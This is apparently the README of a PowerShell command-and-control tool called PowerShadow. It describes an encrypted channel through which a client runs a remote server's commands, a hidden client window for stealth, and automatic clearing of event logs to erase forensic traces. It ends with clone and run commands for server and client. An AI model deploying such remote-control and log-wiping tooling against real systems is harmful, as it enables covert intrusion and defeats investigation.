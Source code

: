 # PowerShadow

PowerShadow is an advanced, encrypted TCP Command & Control (C2) framework written in PowerShell. It is designed for authorized security testing and educational purposes. PowerShadow features secure key derivation using PBKDF2, a hidden client window, and automated event log clearance on disconnect. The default TCP port is **9090**.

> **WARNING:**  
> This tool is intended for **authorized and ethical** security testing only. Misuse of this tool may be illegal and unethical. Always obtain explicit permission before testing any system.

---

## Features

- **Encrypted Communication:**  
   Commands entered on the server are encrypted using AES‑256 (CBC with PKCS7 padding) and sent over TCP
    with a 4‑byte length prefix. The client decrypts and executes the command, then encrypts the output
    and sends it back using the same protocol.

- **Secure Key Derivation:**  
  Derives the encryption key and IV from a user‑supplied passphrase (entered securely) and a shared salt using PBKDF2—avoiding hard‑coded keys.

- **Length‑Prefixed TCP Protocol:**  
  Implements a simple length‑prefixed protocol to reliably transmit encrypted messages over TCP.

- **Hidden Client Window:**  
  On Windows, the client’s PowerShell window is hidden for improved stealth.

- **Event Log Clearance:**  
  When the connection ends, the client automatically clears selected Windows and PowerShell event logs to reduce forensic traces.

- **Customizable Default Port:**  
  The default TCP port is **9090**. This can be modified via command‑line parameters.

---

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/sudoplunder/powershadow.git
   cd powershadow

## Execution
- **Server:**
```powershell
sudo pwsh ./powershadow.ps1 -Mode Server -Port 9090
```
- **Client (As Administrator):**
```powershell
.\powershadow.ps1 -Mode Client -ServerIP <server_ip> -Port 9090
```
